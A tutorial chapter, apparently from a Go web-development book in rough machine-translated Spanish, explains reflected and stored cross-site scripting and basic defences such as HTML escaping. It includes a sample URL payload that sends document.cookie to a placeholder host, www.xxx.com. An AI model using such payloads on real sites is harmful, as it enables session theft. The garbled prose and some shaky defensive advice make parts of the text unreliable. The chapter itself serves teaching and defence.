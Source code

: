 # 9.3 ataques XSS

Con el desarrollo de la tecnología de Internet, y ahora la aplicación web contiene una gran cantidad de contenido dinámico para mejorar la experiencia del usuario. El llamado contenido dinámico es que el entorno de la aplicación y el usuario de acuerdo con la solicitud del usuario, la salida del contenido correspondiente. Sitio dinámico será llamado "cross-site scripting ataques" (Cross Site Scripting, los expertos en seguridad a menudo se abrevia como XSS) amenazas, mientras que el sitio estático es absolutamente resistente a ella.

## Que es XSS

Ataques XSS: ataques de secuencias de comandos en sitios cruzados (Cross-Site Scripting), a fin de no, y las Hojas de Estilo en Cascada (Cascading Style Sheets, CSS) confusión siglas, que se abrevian como cross-site scripting ataques XSS. XSS es una vulnerabilidad de seguridad común en la Web que permite a un atacante proporcionar código malicioso en las páginas utilizadas por otros usuarios. A diferencia de la mayoría de los ataques (generalmente implican el atacante y la víctima), XSS involucra tres partes, a saber, el atacante, el cliente y las aplicaciones Web. XSS gol ataque es robar una cookie almacenada en el cliente o en otros sitios web que se utilizan para identificar la identidad de la información confidencial del cliente. Una vez que llegue a la información del usuario legítimo, el atacante puede suplantar incluso interactuar con el sitio.

XSS generalmente se pueden dividir en dos categorías: una es el tipo de almacenamiento de XSS, principalmente en lo que permite a los usuarios introducir datos para su uso por otros usuarios que navegan por esta página para ver lugares, incluyendo comentarios, opiniones, blogs y diversas formas. Aplicaciones para consultar datos de la base de datos, se muestra la página, el atacante entró en la página de datos de secuencias de comandos malintencionadas relevante, los usuarios navegar por estas páginas pueden ser atacados. Este simple proceso puede ser descrito como: una entrada maliciosos aplicaciones de usuario HTML web -> Acceso a la base de datos -> Programas -> Web del navegador del usuario. El otro es XSS reflexivo, el enfoque principal es agregar el código de script en la dirección URL de los parámetros de la petición, parámetros de la petición en el programa directamente a la salida de la página, el usuario hace clic en un enlace malicioso en un ataque similar podría ser.

XSS presentan los medios principales y termina de la siguiente manera:

- El robo de cookies, el acceso a información sensible.
- El uso de Flash implantable, a través de permisos crossdomain establecidos para obtener, además, una autoridad superior, o el uso de Java y otra llegar operaciones similares.
- Utiliza iframe, marco, XMLHttpRequest o Flash, etc, para (el atacante) la identidad del usuario para realizar algunas acciones administrativas, o realizar alguna, como por ejemplo: micro-Bo, añadir amigos, enviar mensajes privados y otras operaciones de rutina , hace algún tiempo, Sina microblogging padeció una sola vez XSS.
- El uso de un dominio puede ser atacado por otras características de confianza de dominio para solicitar la identidad de fuentes de confianza no permita que algunas de las operaciones habituales, tales como un voto inadecuada.
- En un gran número de visitas en el ataque XSS página algunos sitios pequeños pueden lograr el efecto de los ataques DDoS

## XSS principio

Las aplicaciones web no se presentan los datos que se solicitan al usuario para hacer un filtro de inspección completa que permite a los usuarios incorporar datos presentados por el código HTML (en particular ">", "<"), y la salida de códigos maliciosos sin escapar a terceros interpretado el navegador del usuario, está liderando las causas de las vulnerabilidades XSS.

Al lado reflexivo XSS XSS ilustran el proceso: En la actualidad existe una página web, de acuerdo con los parámetros de las salidas el nombre 's del usuario, tales como el acceso a url: `http://127.0.0.1/?name=astaxie` , será la siguiente salida en la información del navegador:

	hello astaxie

Si pasamos esta url: `http://127.0.0.1/?name=<script>alert('astaxie,xss')</script>`, a continuación, encontrará un cuadro de pop-up navegador, lo que ayuda el sitio tiene estado en vulnerabilidades XSS existencia. Entonces, ¿cómo los usuarios maliciosos robar Galleta él? Y por el estilo, ya que esta url:

`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`
,de modo que usted puede poner cookies enviar al sitio especificado: `www.xxx.com`. Se podría decir, por lo que echar un vistazo a la URL del problema, ¿cómo alguien hace clic? Sí, este tipo de URL hará que la gente escéptica, pero si se utiliza un servicio de URL corta para acortarlo, se podía ver?, El atacante acortar la url de alguna manera después de la difusión, de conocer la verdad una vez que el usuario hace clic en Esta dirección de Internet, datos de la cookie se enviará a los correspondientes sitios pre-configurados de este tipo en la información de cookies Robo del usuario, a continuación, puede utilizar una herramienta como Websleuth para comprobar si la cuenta del usuario para robar.

Un análisis más detallado acerca de XSS que se puede referir a este llamado " análisis de sucesos microblogging Sina XSS artículos " [ Sina microblogging XSS event analysis ] (http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)" articles

## Como evitar XSS

La respuesta es simple, y decididamente no creen ninguna entrada del usuario y filtrar todos los caracteres especiales en la entrada. Esto eliminará la mayoría de los ataques XSS.

En este momento hay defensa XSS siguientes maneras:

- Filtrado de caracteres especiales

Una forma de evitar XSS principalmente al filtrado de contenido proporcionado por el usuario, Go lenguaje proporciona la función de filtro HTML:

`text/template` package debajo de `HTMLEscapeString`, `JSEscapeString` otras funciones

- El uso de cabeceras HTTP de tipo especificado

`w.Header().Set("Content-Type","text/javascript")`

Esto permite que el navegador para analizar código javascript, y no habrá salida HTML.


## Resumen

Vulnerabilidad XSS es bastante peligroso en el desarrollo de aplicaciones Web, es importante recordar para filtrar los datos, especialmente en la salida al cliente, que ahora está medio bien establecido para prevenir XSS.

## Links

- [Directory](preface.md)
- Previous section: [Filter inputs](09.2.md)
- Next section: [SQL injection](09.4.md)
